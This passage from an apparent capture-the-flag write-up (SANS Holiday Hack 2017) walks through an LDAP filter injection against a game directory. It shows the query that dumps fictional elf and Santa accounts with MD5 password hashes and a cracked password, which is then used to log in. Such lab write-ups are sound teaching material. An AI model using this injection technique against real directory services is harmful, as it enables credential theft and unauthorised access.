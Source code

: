 The query above is the correct query I came up with. It begins by closing off the previous query and turning the entire right hand side into an OR statement that will be ignored. Then we simply use `s*` to signal to search for all personnel with `s` in their name and **WHAM!**

```bash
bash query.sh
(|(&(gn=*santa*))(|(ou=*elf*)(ou=elf))(&(sn=*santa*))(|(ou=*elf*)(ou=elf)))

[[["cn=tarpin,ou=elf,dc=northpolechristmastown,dc=com",{"gn":["tarpin"],"mail":["tarpin.mcjinglehauser@northpolechristmastown.com"],"profilePath":["/img/elves/elf7.PNG"],"sn":["mcjinglehauser"],"userPassword":["f259e9a289c4633fc1e3ab11b4368254"]}]],[["cn=holly,ou=elf,dc=northpolechristmastown,dc=com",{"gn":["holly"],"mail":["holly.evergreen@northpolechristmastown.com"],"profilePath":["/img/elves/elfgirl3.PNG"],"sn":["evergreen"],"userPassword":["031ef087617c17157bd8024f13bd9086"]}]],[["cn=mary,ou=elf,dc=northpolechristmastown,dc=com",{"gn":["mary"],"mail":["mary.sugerplum@northpolechristmastown.com"],"profilePath":["/img/elves/elfgirl2.PNG"],"sn":["sugarplum"],"userPassword":["b9c124f223cdc64ee2ae6abaeffbcbfe"]}]],[["cn=sparkle,ou=elf,dc=northpolechristmastown,dc=com",{"gn":["sparkle"],"mail":["sparkle.redberry@northpolechristmastown.com"],"profilePath":["/img/elves/elfgirl.PNG"],"sn":["redberry"],"userPassword":["82161cf4b4c1d94320200dfe46f0db4c"]}]],[["cn=wunorse,ou=elf,dc=northpolechristmastown,dc=com",{"gn":["wunorse"],"mail":["wunorse.openslae@northpolechristmastown.com"],"profilePath":["/img/elves/elf5.PNG"],"sn":["openslae"],"userPassword":["9fd69465699288ddd36a13b5b383e937"]}]],[["cn=minty,ou=elf,dc=northpolechristmastown,dc=com",{"gn":["Minty"],"mail":["minty.candycane@northpolechristmastown.com"],"profilePath":["/img/elves/elf4.PNG"],"sn":["candycane"],"userPassword":["bcf38b6e70b907d51d9fa4154954f992"]}]],[["cn=shimmy,ou=elf,dc=northpolechristmastown,dc=com",{"gn":["Shimmy"],"mail":["shimmy.upatree@northpolechristmastown.com"],"profilePath":["/img/elves/elf3.PNG"],"sn":["upatree"],"userPassword":["d0930efed8e75d7c8ed2e7d8e1d04e81"]}]],[["cn=pepper,ou=elf,dc=northpolechristmastown,dc=com",{"gn":["Pepper"],"mail":["pepper.minstix@northpolechristmastown.com"],"profilePath":["/img/elves/elf3.PNG"],"sn":["Minstix"],"userPassword":["d0930efed8e75d7c8ed2e7d8e1d04e81"]}]],[["cn=bushy,ou=elf,dc=northpolechristmastown,dc=com",{"gn":["Bushy"],"mail":["bushy.evergreen@northpolechristmastown.com"],"profilePath":["/img/elves/elf2.PNG"],"sn":["Evergreen"],"userPassword":["3d32700ab024645237e879d272ebc428"]}]],[["cn=alabaster,ou=elf,dc=northpolechristmastown,dc=com",{"gn":["Alabaster"],"mail":["alabaster.snowball@northpolechristmastown.com"],"profilePath":["/img/elves/elf1.PNG"],"sn":["Snowball"],"userPassword":["17e22cc100b1806cdc3cf3b99a3480b5"]}]],[["cn=santa,ou=human,dc=northpolechristmastown,dc=com",{"gn":["Santa"],"mail":["santa.claus@northpolechristmastown.com"],"profilePath":["/img/elves/santa.png"],"sn":["Claus"],"userPassword":["d8b4c05a35b0513f302a85c409b4aab3"]}]]]
```

Santa's hashed password is just handed to us on a plate: **d8b4c05a35b0513f302a85c409b4aab3**

Not only that, but I ran the hash over https://hashes.org/'s database and it turned out to be publicly cracked already!

<img class="img-responsive image-box-shadow" src="/img/blog/2017/12/hhc2017-challenge07-santas-password-cracked.jpg" />

Santa's Details:

* **user**: santa.claus
* **pass**: 1iwantacookie

It was simple now, I clicked the top right box and opened **Santa Panel**. When prompted for a password I typed it in and hit **ENTER**

<img class="img-responsive image-box-shadow" src="/img/blog/2017/12/hhc2017-challenge07-santa-panel-login.jpg" />
